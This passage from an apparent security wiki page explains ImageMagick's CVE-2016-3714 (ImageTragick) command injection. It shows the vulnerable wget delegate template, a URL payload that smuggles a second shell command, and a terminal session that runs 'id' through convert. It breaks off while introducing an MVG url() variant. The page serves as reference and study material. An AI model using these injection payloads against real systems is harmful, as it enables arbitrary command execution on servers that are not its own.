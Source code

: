 ```yaml
---
description: >-
  A tool/library for converting and editing images of many formats, with some
  older versions having known vulnerabilities
---
```


# ImageMagick

## Known Vulnerabilities

* `convert -version` to check version
* [Release Archive](https://imagemagick.org/archive/releases/) for testing

### Command Injection - CVE-2016–3714 (< 6.9.3-10 = May 2016)

{% embed url="https://imagetragick.com/" %}
Site about this vulnerability, explaining all different impacts and more details
{% endembed %}

When providing `convert` with an input, it is possible to use a **URL** that will be fetched by it. It does so using the following command template:

{% code title="Vulnerable template" %}
```bash
"wget" -q -O "%o" "https:%M"
```
{% endcode %}

Here, `%M` is the input URL, which can be command-injected by either command substitution or simply escaping the `"` quotes:

{% code title="Payload" %}
```bash
https://example.com"|touch "/tmp/pwned
```
{% endcode %}

By forcing ImageMagick to request this URL, we can execute arbitrary commands:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ convert 'https://example.com"|bash -c "id > /tmp/pwned' output.png
</strong>$ cat /tmp/pwned
uid=1001(user) gid=1001(user) groups=1001(user)
</code></pre>

#### Using MVG files with URLs

While the above trick is useful if you have control over the input URL, this is not always the case. To make this more exploitable we can trigger the same behavior through MVG syntax. This has a `url()` function that will fetch with the same command injection vulnerability:
